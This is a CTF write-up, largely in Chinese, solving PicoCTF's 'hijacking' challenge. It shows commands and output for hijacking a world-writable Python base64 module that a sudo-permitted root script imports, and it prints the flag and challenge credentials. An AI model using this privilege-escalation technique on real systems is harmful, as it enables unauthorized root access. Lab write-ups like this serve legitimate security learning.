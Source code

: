 # PicoCTF - hijacking
## Background
Privilege Escalation

Hint 1: Check for Hidden files
Hint 2: No place like Home:)

---
[Linux sudo命令](https://www.runoob.com/linux/linux-comm-sudo.html)
> -l 顯示出自己（執行 sudo 的使用者）的權限
## Recon
第一次遇到提權的問題，感覺很新鮮也很好玩，不過因為沒啥概念所以主要是參考[^pico_pwn_hijacking_wp_martin]
1. 首先觀察一下各個file或folders，根目錄有個challenge folder，另外家目錄有一個.server.py檔案，裡面的內容不太重要，只需要知道他import哪些library
2. 現在的問題是按照目前的權限，無法讀取challenge相關的資訊，所以我們要提升權限，主要的做法是利用base64.py這個mod全開的檔案進行讀寫，再利用python執行有import base64的.server.py檔案就可以執行shell
3. 為神麼要用base64.py當作主要的突破口就是因為只有他的mod全開
    ```bash
    $ ls -al /usr/lib/python3.8
    ...
    -rwxrwxrwx 1 root root  20382 Nov 14  2022 base64.py
    ...
    -rw-r--r-- 1 root root  38995 Nov 14  2022 os.py
    ...
    -rw-r--r-- 1 root root  35243 Nov 14  2022 socket.py
    ```
## Exploit
```bash
$ ssh picoctf@saturn.picoctf.net -p 58219
$ find / -name "base64.py"
...
/usr/lib/python3.8/base64.py
...
$ vim /usr/lib/python3.8/base64.py
# add these line and save the file
import os
os.system('ls -al /challenge')
$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
$ sudo /usr/bin/python3 /home/picoctf/.server.py
total 4
d--------- 1 root root   6 Mar 16 02:08 .
drwxr-xr-x 1 root root  51 Jul 31 15:23 ..
-rw-r--r-- 1 root root 103 Mar 16 02:08 metadata.json
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
$ vim /usr/lib/python3.8/base64.py
# revise the file
os.system('cat /challegne/metadata.json')
$ sudo /usr/bin/python3 /home/picoctf/.server.py
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}", "username": "picoctf", "password": "HYGhWsmPyf"}sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

Flag: `picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`
## Reference
[^pico_pwn_hijacking_wp_martin]:[ picoCTF 2023 hijacking ](https://youtu.be/BIzu0AtOq5w)